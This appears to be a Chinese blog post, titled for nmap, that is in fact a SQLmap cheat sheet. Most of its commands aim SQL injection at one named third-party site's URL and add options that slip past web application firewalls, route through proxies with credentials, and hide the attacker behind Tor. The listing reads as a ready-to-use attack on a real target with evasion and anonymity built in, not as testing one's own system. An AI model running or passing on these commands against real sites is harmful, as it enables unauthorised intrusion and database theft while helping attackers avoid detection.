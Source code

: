 ```yaml
---
layout:	post
title:	KaliTools-nmap
date:   2018-04-10 13:00:12 +0800
categories: Kali
---
```


## SQLmap 常用语句

- 检测注入点：
`sqlmap -u "URL"`
- 检测注入点并自动进行选择：
`sqlmap -u "URL" --batch`

- [更新SQLmap](https://baijiahao.baidu.com/s?id=1561874838817969&wfr=spider&for=pc) 


## 使用参数进行绕过

` sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --random-agent -v 2 `
使用任意浏览器进行绕过，尤其是在WAF配置不当的时候

`sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --hpp -v 3`
使用HTTP 参数污染进行绕过，尤其是在ASP.NET/IIS 平台上

`sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --delay=3.5 --time-sec=60`
使用长的延时来避免触发WAF的机制，这方式比较耗时

` sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --proxy=211.211.211.211:8080 --proxy-cred=211:985`
使用代理进行注入

` sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --ignore-proxy`
禁止使用系统的代理，直接连接进行注入

`sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --flush-session`
清空会话，重构注入

`sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --hex`
或者使用参数 --no-cast ，进行字符码转换

` sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4"  --mobile`
对移动端的服务器进行注入

`sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --tor `
匿名注入